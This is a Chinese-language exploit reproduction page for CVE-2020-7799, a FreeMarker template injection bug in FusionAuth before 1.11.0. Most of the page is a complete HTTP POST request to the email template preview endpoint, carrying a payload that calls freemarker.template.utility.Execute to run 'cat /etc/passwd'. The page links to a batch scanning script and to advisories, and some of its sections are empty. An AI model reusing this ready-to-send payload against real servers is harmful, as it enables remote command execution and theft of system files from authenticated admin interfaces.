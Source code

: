 # （CVE-2020-7799） Apache FreeMarker 模板 FusionAuth 远程代码执行漏洞

> 原文：[http://book.iwonder.run/0day/Apache FusionAuth/CVE-2020-7799.html](http://book.iwonder.run/0day/Apache FusionAuth/CVE-2020-7799.html)

## 一、漏洞简介

在 FusionAuth 1.11.0 版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页->设置->电子邮件模板）或主题（主页->设置->主题），可利用`freemarker.template.utility.Execute`执行任意命令

## 二、漏洞影响

## 三、复现过程

post 提交

```
POST /ajax/email/template/preview HTTP/1.1
Host: www.0-sec.org:9011
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 796
DNT: 1
Connection: close
Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%40fusionauth.io&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%2Fexample.com%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}} 
```

![image](img/71c3898f630f28e45d081b87ba62839e.png)

### 批量检测脚本

[https://github.com/ianxtianxt/CVE-2020-7799/](https://github.com/ianxtianxt/CVE-2020-7799/)

## 参考链接

> [https://www.anquanke.com/vul/id/1910928](https://www.anquanke.com/vul/id/1910928)
> 
> [https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69](https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69)

